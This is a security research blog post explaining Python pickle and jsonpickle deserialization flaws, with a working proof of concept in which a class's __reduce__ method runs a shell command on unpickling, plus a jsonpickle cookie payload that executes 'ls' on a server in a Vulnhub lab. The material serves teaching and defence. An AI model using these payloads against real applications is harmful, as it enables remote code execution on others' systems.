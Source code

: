 ```yaml
---
layout: single
title:  "Python Deserialization Vulnerabilities"
path: /posts/
date:   2022-05-22
tags: Deserialization python pickle
categories: research
classes: wide
author: komodino
excerpt: "This is a post containing my findings researching python deserialization attack vectors."
header:
  teaser: /assets/images/unserialize/picklerick.png
  teaser_home_page: true

---
```


Insecure Deserialization currently occupies place No.8 on OWASP's Top 10 Vulnerablitiy list for 2017.

To learn more about what deserialization attacks are, check out my write up on the Temple of Doom Vulnhub Box [here](https://pwnokefalos.eu/posts/)

## Introduction
---

In python the default and most popular module for serialization/deserialization is [Pickle](https://docs.python.org/3.8/library/pickle.html).

>The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” 1 or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”.

Reading the docs, pickle immediately warns us that we shouldn't really trust user input.

![](/assets/images/unserialize/warnpickle.png)

Let's do some test and play around with pickle. First create an object, then serialize it and save it in the system.

```python
class User:
        user_stats = {}
        def __init__(self,name,age):
                self.user_stats["name"] = name
                self.user_stats["age"] = age

john = User("John",21)

# Write to file - Serialize
with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize
with open("user.dat","rb") as f:
        user = pickle.load(f)

print(user.user_stats)
```

This will print `{'name': 'John', 'age': 21}`  

Here we succesfully **serialized** and then **unserialized** the object `john`.

## Vulnerability Analysis

What can possibly go wrong with this?
Reading a bit further in the docs we stumble upon **__reduce__**

>The __reduce__() method takes no argument and shall return either a string or preferably a tuple.
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:
1. A callable object that will be called to create the initial version of the object.
2. A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.<br>
  ...

A healthy use for **__reduce__** would be for providing hints/directives to pickle on how to properly deserialize the object, in case the default automatical way is not enough.

But reading the above citation we conclude that any object that is going to be unserialized and is an instance of a class that has a **__reduce__** method implementation, given the right definintion of **__reduce__**  can immediately execute a callable object during the unserialization phase.

Let's break this down a bit and create another example.
```python
#!/usr/bin/env python3
import pickle
from os import system

class User:

        def __reduce__(self):
                command = "ping -c 3 google.com"  # The command to execute
                
                # As stated in the above docs if __reduce__ returns a tuple the first 
                # tuple element must be a callable object, in this case system. The 
                # second tuple element must be a tuple itself containing the arguments 
                # to the callable object. Upon deserialization this basically corresponds
                # to system(command)
                                                  
                return (system, (command, ))

# Create test object

john = User()

# Write to file - Serialize

with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize

with open("user.dat","rb") as f:
        user = pickle.load(f)
```

Running the above script we see

![](/assets/images/unserialize/google_ping.png)

We have command execution!

## Another variation
---

The idea for researching this came to me while solving the **Symfonos4 Vulnhub Box** where you are presented with a website that will deserialize the user cookie.

The cookie looked something like this
`{"py/object": "app.User", "username": "Poseidon"}`

This doesn't really look like standard **pickle** syntax so doing a little research it turns out that it is encoded with **jsonpickle**
>jsonpickle is a Python library for serialization and deserialization of complex Python objects to and from JSON. The standard Python libraries for encoding Python into JSON, such as the stdlib’s json, simplejson, and demjson, can only handle Python primitives that have a direct JSON equivalent (e.g. dicts, lists, strings, ints, etc.). jsonpickle builds on top of these libraries and allows more complex data structures to be serialized to JSON. jsonpickle is highly configurable and extendable–allowing the user to choose the JSON backend and add additional backends.

What will happen is the app will take the **jsonpickled** cookie and deserialize it. In this case convert it from JSON to a normal python object. This library also has a **reduce** method and we can construct a payload with
`{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["ls"], 0, 0, 0]}`

This will execute `ls` on the remote server.

### Conclusion
---

**Never trust user input.**

### Useful links and References
---

[BlackHat 2011 - Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08)

[jsonpickle exploitation](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)


